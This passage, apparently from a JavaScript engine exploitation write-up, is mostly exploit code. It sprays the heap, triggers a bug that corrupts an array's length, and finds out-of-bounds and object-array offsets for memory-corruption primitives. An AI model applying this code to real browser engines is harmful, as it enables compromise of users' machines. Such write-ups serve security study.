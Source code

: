 ```js
helper.__defineGetter__(0, () => {
    for(let i=0; i<0x8000; i+=2) {
        // deploy heap layout behind the spread object
        spray_arr[i] = float_arr.slice();
        spray_arr[i+1] = obj_arr.slice();
    }
})

// trigger vuln
foo(evil, helper);

```

Specifically, it will write `0x202000002020`  to the `length` field of `float_arr`. If so, we get a `oob_arr` here. 

```js
// find out the float_arr that length has been overwritten
let oob_idx = -1;
let oob_arr = undefined;
for(let i=0; i<spray_arr.length; i+=2) {
    if(spray_arr[i].length == 0x2020){
        oob_idx = i;
        oob_arr = spray_arr[i];
        obj_arr = spray_arr[i+1];
        break;
    }
}

if(oob_idx == -1) {
    throw("trigger vuln failed");
}
// print(describe(oob_arr));
// print(describe(obj_arr));
print("oob arr length: "+hex(oob_arr.length));

// find out the next obj_arr idx by oob_arr
let obj_idx = -1;
obj_arr[0] = i2obj(0x10000deadbeef);
for(let i=0; i<0x100; i++) {
    if(oob_arr[i] != i2f(0x1202000002020) && oob_arr[i] == i2f(0x10000deadbeef)) {
        obj_idx = i;
        // print(hex(f2i(oob_arr[i])));
        break;
    }
}
if(obj_idx == -1) {
    throw("find obj offset in oob arr failed");
}
print("obj in oob arr offset: "+hex(obj_idx));
```
